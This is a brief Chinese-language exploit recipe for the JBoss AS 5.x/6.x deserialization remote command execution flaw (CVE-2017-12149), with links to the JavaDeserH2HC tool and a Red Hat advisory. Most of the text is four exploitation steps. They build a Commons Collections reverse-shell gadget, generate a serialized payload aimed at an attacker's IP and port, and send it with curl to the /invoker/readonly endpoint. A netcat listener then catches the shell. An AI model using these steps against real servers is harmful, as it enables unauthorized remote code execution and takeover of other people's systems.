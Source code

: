 # JbossAS 5.x/6.x反序列化远程命令执行漏洞(CVE-2017-12149)
* Github[https://github.com/joaomatosf/JavaDeserH2HC](https://github.com/joaomatosf/JavaDeserH2HC)
* [https://access.redhat.com/security/cve/cve-2017-12149](https://access.redhat.com/security/cve/cve-2017-12149)
* 工具[http://scan.javasec.cn/java/JavaDeserH2HC.zip](http://scan.javasec.cn/java/JavaDeserH2HC.zip)
## 漏洞利用
1: `javac -cp .:commons-collections-3.2.1.jar ReverseShellCommonsCollectionsHashMap.java`

2: `java -cp .:commons-collections-3.2.1.jar  ReverseShellCommonsCollectionsHashMap ip:port` //反弹shell的IP和端口,然后会生成一个ReverseShellCommonsCollectionsHashMap.ser文件

3: `curl 网址/invoker/readonly --data-binary @ReverseShellCommonsCollectionsHashMap.ser`

4: 再打开另外一个终端并且nc开始设置的反弹shell的IP
